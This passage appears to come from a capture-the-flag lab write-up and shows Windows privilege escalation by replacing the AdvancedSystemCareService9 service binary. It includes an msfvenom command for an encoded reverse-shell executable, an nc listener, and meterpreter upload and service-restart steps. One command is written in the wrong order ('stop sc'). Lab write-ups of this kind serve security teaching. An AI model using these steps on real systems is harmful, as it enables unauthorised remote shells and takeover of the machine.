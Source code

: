 **Answer: AdvancedSystemCareService9**

Download the new shell using this command

`msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe`

`nc -lvnp 4443` -> to listen

<img src="https://user-images.githubusercontent.com/67650329/193294959-69f62c9f-1e35-4079-b748-d9e59d2c7c50.png" width="500px" align="center">

You can use Ctrl+C to exit the shell

This step it's credential if you wrong upload you can't get in into the Administrator/Desktop

stop the AdvancedSystemCareService9 first

`stop sc AdvancedSystemCareService9`

You can use Ctrl+C to exit the machine and back to meterpreter

`upload ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"`

`shell` -> activate the shell to get back to the machine

`sc start AdvancedSystemCareService9` -> Start 

<img src="https://user-images.githubusercontent.com/67650329/193294214-5e2eaa55-d2b7-453a-b62a-13b12d8a9a2a.png" width="500px" align="center">

And you get in into the administration machine.

<img src="https://user-images.githubusercontent.com/67650329/193295134-84045283-d34f-4017-9eac-cbccc949aa41.png" width="500px" align="center">

And bam you get the Root flag.

<img src="https://user-images.githubusercontent.com/67650329/193296174-bfcb6dce-7083-49ae-b792-e5937902ec23.png" width="500px" align="center">

---
